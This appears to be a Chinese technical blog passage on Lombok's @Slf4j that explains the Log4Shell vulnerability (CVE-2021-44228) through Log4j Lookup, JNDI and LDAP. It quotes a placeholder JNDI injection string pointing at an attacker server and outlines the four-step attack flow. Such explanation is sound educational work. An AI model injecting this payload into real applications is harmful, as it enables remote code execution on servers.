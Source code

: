 # 从 Lombok 开始看 @Slf4j

> 参考资料：
> https://projectlombok.org/features/log
> https://github.com/projectlombok/lombok/issues/3063
> 《深入理解 JVM 字节码》
> 《深入理解 Java 虚拟机》
> [blackhat 2016 年议题](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)
> https://docs.oracle.com/javase/tutorial/jndi/overview/index.html
> [slf4j 官网](https://www.slf4j.org/manual.html)
> [slf4j github](https://github.com/qos-ch/slf4j)

# 引入

2021 年 12 月，Apache Java模块Log4j库第一个远程代码执行漏洞被公开披露，该漏洞识别为CVE-2021-44228。此外，还陆续披露了漏洞——CVE-2021-45046和CVE-2021-45105。Log4j可能会成为现代网络安全史上最严重的漏洞。一旦漏洞被利用遭到入侵，服务器就可能会被劫持。
## 漏洞

能攻击到服务器的 **漏洞代码**
`${jndi:ldpa://xx.xx.xx.xx:xxx/xxx}` （ ldpa://恶意代码所在服务器 Ip /恶意代码类名），只需要将这行代码在任意会产生日志输出的输入框内输入就会在应用服务器上运行恶意代码
### 原理
log4j 对于我们来说，最常使用的是用来输出一些变量等，但是 log4j 除了可以输出程序中的变量，它还提供了一个叫 Lookup 的东西，可以用来输出更多内容（系统变量，网络中的变量等）。
Lookup 像是一个接口，具体去哪里查找，怎么查找需要具体模块的实现，而 log4j 已经帮我们把常见的查询途径都进行了实现。
![截屏2023-08-13 22.37.01.png](https://cdn.jsdelivr.net/gh/TongCodeSpace/picForBlog@master/data%E6%88%AA%E5%B1%8F2023-08-13%2022.37.01.png)



**JNDI**
Java naming dictionary interface （Java 命名和字典接口），像一个字典一样，通过名称去查询对应的对象
Naming：命名服务，通过名称查找实际对象的服务，例如通过域名查询 IP 地址等
Dictionary：名称服务的一种拓展，除了名称服务中已有的名称到对象的关联信息外，还允许拥有属性信息。
在这图中，我们可以看到 SPI 是他的具体实现层。早在 2016年的时候就有人提出过一个议题"[A Journey From JNDI LDAP Manipulation To RCE](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)"，指出当时会有安全问题，2016下半年，jdk 也进行了相关的修复，但是修复的只有 RMI 和 CORBA 方式，LDAP 仍有漏洞，直到此次被爆出。
![Pasted image 20230814075859.png](https://cdn.jsdelivr.net/gh/TongCodeSpace/picForBlog@master/dataPasted%20image%2020230814075859.png)

**LDPA**
Lightweight Directory Access Protocol：轻量目录访问协议
LDAP也是有client端和server端。server端是用来存放资源，client端用来操作增删改查等操作
LDAP 类似于用一个树状结构将数据联系起来(和查询DNS服务挺类似的)层级搜索

**过程**
1. 黑客传入 `${jndi:ldpa://xx.xx.xx.xx:xxx/xxx}` 到业务服务器，并将 Reference 绑定到自己的命名/目录服务中
2. 应用程序执行查找
3. 应用程序连接到攻击者控制的 JNDI 服务并返回对象
4. 应用程序解码响应并触发有效负载
